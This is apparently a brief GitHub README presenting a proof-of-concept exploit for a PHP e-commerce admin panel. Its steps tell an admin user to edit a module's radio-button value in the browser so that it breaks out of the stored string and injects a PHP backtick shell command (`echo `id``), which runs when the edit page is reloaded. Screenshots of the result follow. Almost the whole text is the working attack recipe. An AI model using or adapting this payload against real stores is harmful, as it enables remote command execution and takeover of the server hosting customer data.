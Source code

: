 # somuru programlarim


1-) login as admin
2-) get any modules edit page
3-) inspect element any true radiobox
4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo `id`; //
5-) click update
6-) to trig command go again edit page


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)

